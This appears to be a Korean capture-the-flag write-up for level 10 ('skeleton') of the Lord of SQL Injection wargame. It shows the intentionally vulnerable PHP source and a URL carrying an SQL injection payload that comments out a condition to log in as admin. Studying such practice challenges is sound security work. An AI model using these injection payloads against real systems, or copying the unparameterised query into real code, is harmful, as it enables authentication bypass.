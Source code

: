 # Lord of SQL Injection No.10 - skeleton
## 문제 출제 의도 
SQL문을 조작하여 필요없는 조건문을 처리할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```
~~~
$query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"
~~~
필요 없는 id='guest'와 and 1=0를 무력화시켜야 한다.

## Solution
1. 주석과 false를 이용
+ 앞에 id='guest'를 신경쓰지 않고 뒤에 or로 id='admin'이 되게하는 값을 넣어준다
+ 주석으로 뒤에 있는 and 1=0을 무시한다.
~~~
http://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=' and 1=0 or id='admin'-- -
~~~
id에 admin값이 전달되어 문제가 풀린다.